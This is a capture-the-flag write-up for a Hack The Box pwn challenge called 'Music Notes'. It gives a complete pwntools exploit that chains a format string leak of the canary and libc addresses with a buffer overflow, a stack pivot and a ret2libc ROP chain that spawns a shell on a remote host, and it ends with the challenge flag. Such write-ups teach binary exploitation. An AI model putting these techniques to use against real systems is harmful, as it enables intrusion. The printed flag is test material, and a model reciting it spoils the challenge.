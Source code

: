 # Music Notes

## Challenge

A format string vulnerability and a buffer overflow.

### Mitigations

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

## Solution

We can use the format string to leak important values, including a stack address, libc address, exe address, and the canary.

Now, we can send a ret2libc payload and place it in the buffer.

We can't put the ROP chain directly under RBP due to the limited length of our overflow.

But it is enough to pivot the stack onto our buffer, where we placed our ROP chain earlier, and return to a `leave; ret;` gadget.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 139.59.180.40 --port 31485 music_notes
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('music_notes')
libc = ELF('libc.so.6')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or '178.62.18.237'
port = int(args.PORT or 30721)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

io = start()

def sendnote(target):
    io.recvuntil(b"\n1. ")
    note = io.recv(1)
    num = 1
    if note != target:
        num = 2
    io.sendlineafter(b"> ", str(num).encode())

sendnote(b"D")
sendnote(b"B")
sendnote(b"A")
sendnote(b"G")
sendnote(b"D")

exe_stack = 0x108 // 0x8 + 6
libc_stack = 0x128 // 0x8 + 6
pivot_stack = 0x90 // 0x8 + 6
canary_stack = 0xc8 // 0x8 + 6

io.sendlineafter(b"> ", "\n%{}$p\n%{}$p\n%{}$p\n%{}$p".format(
    exe_stack,
    libc_stack,
    pivot_stack,
    canary_stack
    ).encode())
io.recvuntil(b"So, your name is: \n")

exe.address = int(io.recvline()[:-1], 0) - 0x00000fd1
libc.address = int(io.recvline()[:-1], 0) - libc.libc_start_main_return
pivot = int(io.recvline()[:-1], 0) + 0x98
canary = int(io.recvline()[:-1], 0)

log.success("exe: " + hex(exe.address))
log.success("libc: " + hex(libc.address))
log.success("pivot: " + hex(pivot))
log.success("canary: " + hex(canary))

rop = ROP(exe)
payload = flat({
    0x0: [
        rop.find_gadget(["pop rdi", "ret"])[0],
        next(libc.search(b"/bin/sh")),
        libc.sym["system"],
        ],
    0x60 - 0x38: canary,
    0x60: pivot,
    0x60 + 0x8: rop.find_gadget(["leave", "ret"])[0],
    })

io.sendlineafter(b":", payload)

io.interactive()
```

## Flag

`HTB{j1ngl3_b3ll5_j1ngl3_b3ll5_j1ngl3_f0rm4t_5tr1ng}`
